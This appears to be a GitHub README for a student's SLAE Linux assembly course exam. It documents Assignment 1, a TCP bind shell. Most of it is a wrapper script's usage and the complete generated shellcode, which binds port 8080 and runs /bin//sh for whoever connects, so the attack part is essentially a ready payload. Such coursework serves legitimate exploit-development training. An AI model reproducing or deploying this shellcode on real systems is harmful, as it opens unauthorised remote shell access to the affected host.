 # SLAE
Repository for the SLAE exam  
Student **SLAE-891**  
[http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)  
  
## Assignment 1
Shell_Bind_TCP Shellcode  
  
You can customize the listening port and generate the TCP bind shellcode with the following command:  
```bash
./wrapper.sh
Usage: ./wrapper.sh <port_number> <pattern> <template_file>
```
```bash
./wrapper.sh 8080 PORT ./shell_bind_tcp.template 
[+] Assembling with Nasm ... 
[+] Linking ...
[+] Done!
"\x31\xdb\xf7\xe3\xb0\x66\xb3\x01\x52\x6a\x01\x6a\x02\x89\xe1\xcd\x80\x89\xc7\x52\x66\x68\x1f\x90\x66\x6a\x02\x89\xe3\x6a\x10\x53\x57\x31\xdb\xf7\xe3\xb0\x66\xb3\x02\x89\xe1\xcd\x80\x52\x57\x31\xdb\xf7\xe3\xb0\x66\xb3\x04\x89\xe1\xcd\x80\x31\xdb\xf7\xe3\x52\x52\x57\xb0\x66\xb3\x05\x89\xe1\xcd\x80\x89\xc3\x31\xc9\xb1\x02\x31\xc0\xb0\x3f\xcd\x80\x49\x79\xf9\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80"
```  
  

